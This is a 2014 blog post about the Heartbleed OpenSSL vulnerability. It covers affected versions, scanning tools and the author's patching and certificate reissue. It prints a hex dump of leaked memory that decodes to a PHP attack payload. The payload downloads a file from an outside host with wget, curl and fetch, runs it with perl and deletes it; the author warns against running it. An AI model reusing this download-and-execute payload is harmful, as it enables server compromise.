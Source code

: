 ```yaml
---
layout: post
title: "1f j00 R R34d1N 7h12 m3m0ry j00 R pWN3D"
date: 2014-04-10 12:05:03 -0500
comments: false
categories:
- Networking
- Security
- Programming
- SSL
- ISP
image:
  feature: https://ciscodude.net/images/snow-dust.jpg
  credit: Theo Baschak
  creditlink: https://www.flickr.com/photos/theodorebaschak/
---
```

Another huge blunder this week in the ubiquitous OpenSSL library [secadv](https://www.openssl.org/news/secadv_20140407.txt). This one's called [Heartbleed](http://heartbleed.com/). You can easily check if your services are vulnerable at [filippo.io/Heartbleed](http://filippo.io/Heartbleed/). This one is particularly scary as it allows reading random private memory directly from the server/device/etc. This may include decrypted SSL transactions, certs, private keys, and other random memory. So far I have only seen other SSL requests, and public certificate chains from my own devices.

XKCD has a comic which [explains Heartbleed](http://xkcd.com/1354/) VERY well.

The implications are huge. Luckily it only affects OpenSSL 1.0.1 to 1.0.1f (and some beta 1.0.2 versions.. but you'd never run beta in production right?). 1.0.1g is not affected. Older versions are OK here as well. So my recent push for [Upgraded SSL Ciphers](/2014/01/12/ssl-ciphers/) bit me in the ass. Some of the various devices affected are included in this [advisory from NSCS-FI](https://www.cert.fi/en/reports/2014/vulnerability788210.html). There are a lot of devices which use OpenSSL. There are many, many Linux/BSD distributions which shipped vulnerable OpenSSL packages/libs as well. Again, like the other SSL problems earlier this year, there will be implications from this for a long time because all sorts of embedded systems and devices won't get updated (potentially ever).

If you need to mass-scan your network(s), nmap has a [script for that](https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse) [docs here](http://nmap.org/nsedoc/scripts/ssl-heartbleed.html).

Here is an interesting chunk of memory pulled from a vulnerable firewall using one of several [widely](https://ccdn.tracetracker.com/ssltest.py) [available](https://gist.github.com/siboulet/10154829) [ssltest.py](https://github.com/musalbas/heartbleed-masstest/blob/master/ssltest.py) POCs. This is someone elses encrypted request body. Someone, or more likely something pretending to be a Googlebot, and sending a php file attachment with some badness in it. I would not recommend running the below hex decoded PHP code in the request, nor downloading the f.txt (and especially not executing it), unless you are a malware researcher.

{% highlight text %}
  0200: 70 61 74 69 62 6C 65 3B 20 47 6F 6F 67 6C 65 62  patible; Googleb
  0210: 6F 74 2F 32 2E 31 3B 20 2B 68 74 74 70 3A 2F 2F  ot/2.1; +http://
  0220: 77 77 77 2E 67 6F 6F 67 6C 65 2E 63 6F 6D 2F 62  www.google.com/b
  0230: 6F 74 2E 68 74 6D 6C 29 0D 0A 43 6F 6E 74 65 6E  ot.html)..Conten
  0240: 74 2D 54 79 70 65 3A 20 61 70 70 6C 69 63 61 74  t-Type: applicat
  0250: 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F 72 6D 2D 75  ion/x-www-form-u
  0260: 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 6F 6E 74 65  rlencoded..Conte
  0270: 6E 74 2D 4C 65 6E 67 74 68 3A 20 32 35 31 0D 0A  nt-Length: 251..
  0280: 0D 0A 3C 3F 70 68 70 20 65 63 68 6F 20 22 43 6F  ..<?php echo "Co
  0290: 6E 74 65 6E 74 2D 54 79 70 65 3A 74 65 78 74 2F  ntent-Type:text/
  02a0: 68 74 6D 6C 5C 72 5C 6E 5C 72 5C 6E 22 3B 65 63  html\r\n\r\n";ec
  02b0: 68 6F 20 22 62 75 6E 34 22 2E 70 68 70 5F 75 6E  ho "bun4".php_un
  02c0: 61 6D 65 28 29 2E 22 73 74 30 70 22 3B 73 79 73  ame()."st0p";sys
  02d0: 74 65 6D 28 22 63 64 20 2F 74 6D 70 3B 77 67 65  tem("cd /tmp;wge
  02e0: 74 20 77 67 65 74 20 68 74 74 70 3A 2F 2F 77 77  t wget http://ww
  02f0: 77 2E 63 6F 72 64 6F 62 79 74 65 2E 63 6F 6D 2F  w.cordobyte.com/
  0300: 66 2E 74 78 74 3B 63 75 72 6C 20 2D 4F 20 68 74  f.txt;curl -O ht
  0310: 74 70 3A 2F 2F 77 77 77 2E 63 6F 72 64 6F 62 79  tp://www.cordoby
  0320: 74 65 2E 63 6F 6D 2F 66 2E 74 78 74 3B 66 65 74  te.com/f.txt;fet
  0330: 63 68 20 68 74 74 70 3A 2F 2F 77 77 77 2E 63 6F  ch http://www.co
  0340: 72 64 6F 62 79 74 65 2E 63 6F 6D 2F 66 2E 74 78  rdobyte.com/f.tx
  0350: 74 3B 70 65 72 6C 20 66 2E 74 78 74 3B 70 65 72  t;perl f.txt;per
  0360: 6C 20 66 2E 74 78 74 3B 72 6D 20 2D 72 66 20 66  l f.txt;rm -rf f
  0370: 2E 2A 22 29 3B 65 78 69 74 3B 20 3F 3E 87 5C 06  .*");exit; ?>.\.
  0380: 85 8C 9C E2 46 93 40 CF 62 D0 F7 E7 B4 4A AB 3A  ....F.@.b....J.:
  0390: 80 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E  ................
{% endhighlight %}

**Update several days later**:

So the majority of the pain is over. Systems are patched and updated. Passwords changed. Certificates reissued (this was surprisingly easy!) and re-installed on various devices. Luckily for my usage, all of my OpenSSL 1.0.1 systems had PFS enabled, so private data should be private.
